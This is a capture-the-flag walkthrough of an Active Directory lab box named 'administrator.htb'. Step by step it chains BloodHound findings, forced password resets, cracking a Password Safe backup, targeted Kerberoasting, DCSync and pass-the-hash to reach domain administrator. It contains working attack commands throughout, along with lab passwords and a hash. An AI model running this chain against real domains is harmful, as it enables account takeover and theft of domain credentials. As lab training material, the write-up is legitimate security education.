We start the box with domain user credentials olivia:ichliebedich.
We first run an Nmap scan against the provided IP. This allows us to obtain the domain name and get an idea of the ports open on the box.
sudo nmap -sC -sV -p- -T 5 10.129.11.170

We also find the computer name in the results of our Nmap scan:

We test the credentials against LDAP using NXC:
nxc ldap 10.129.11.170 -u olivia -p ichliebedich

We can then use the credentials to run SharpHound and collect info about the domain's users, objects and privilege relationships.
bloodhound-python --zip -c All -d administrator.htb -u olivia -p ichliebedich -dc dc.administrator.htb -ns 10.129.11.170

We upload the collected data into BloodHound to find our first attack vector. We can see that the user Olivia has GenericAll privileges over the user
Michael. This was found by clicking the "First-Degree Object Control" predefined query.

From there, we change Michael's password to gain access to his account. This can be done because we have full control over the "michael" object.
net rpc password "Michael" "Password123" -U "administrator.htb"/"olivia"%"ichliebedich" -S "10.129.11.170"

In the screenshot, we clearly see that the password was successfully changed to "Password123".
We now have control over user Michael. We check BloodHound to find any potential lateral movement or privilege escalation vectors.
We notice that Michael has ForceChangePassword on user Benjamin. This relationship
was also discovered using the "First Degree Object Control" query.

We repeat the same attack we performed in the previous step.
net rpc password "benjamin" "Password123" -U "administrator.htb"/"michael"%"Password123" -S "10.129.11.170"

I did not find any abuse vectors or special privileges when I examined Benjamin's privileges in BloodHound, but I did notice he was part of the
"Share Moderators" group. I then tried logging into FTP with his user and found an encrypted backup file. The FTP connection was successful
because it uses Windows authentication for its connections.
ftp 10.129.11.170
ftp> dir
ftp> get Backup.psafe3


After researching the file format, I understood that I can use pwsafe2john to get the hash of the password protecting the file.
We then crack the hash and obtain the password using John the Ripper. I then installed PasswordSafe on my Kali machine to open the file.
Once opened, we find the password for user Emily.
pwsafe2john Backup.psafe3 > hash
john hash --wordlist=/usr/share/wordlists/rockyou.txt

We open the password file:


We test the credentials:
crackmapexec smb 10.129.11.170 -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

We can go back to BloodHound and mark Emily as owned. The next attack vector is shown to us with the "First Degree Object Control" query.

With generic write privileges, we can perform a targeted Kerberoast attack by setting a fake SPN to user Ethan and Kerberoasting him,
allowing us to obtain his password hash. We must adjust our Kali machine time to the KDC time. This is because in the attack, we must
first obtain a valid TGT before we obtain a TGS, and to obtain a TGT we must send an AS-REQ which uses a timestamp in the authentication flow.
python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

sudo rdate -n 10.129.11.170 && python3 targetedKerberoast.py -v -d 'administrator.htb' -u 'emily' -p 'UXLCI5iETUsIBoFVTj8yQFKoHjXmb'

We crack the hash:
vim ethan_hash
hashcat ethan_hash /usr/share/wordlists/rockyou.txt

We now have valid credentials for user Ethan.
crackmapexec smb 10.129.11.170 -u 'ethan' -p 'limpbizkit'

Looking over at BloodHound, we can see that user Ethan is allowed to perform a DCSync attack on the domain:

We perform a DCSync attack and obtain the administrator user password hash:
impacket-secretsdump 'administrator.htb'/'ethan':'limpbizkit'@'10.129.11.170'

We now have unrestricted domain access via PtH.
crackmapexec smb 10.129.11.170 -u administrator -H '3dc553ce4b9fd20bd016e098d2d2fd2e' -x whoami
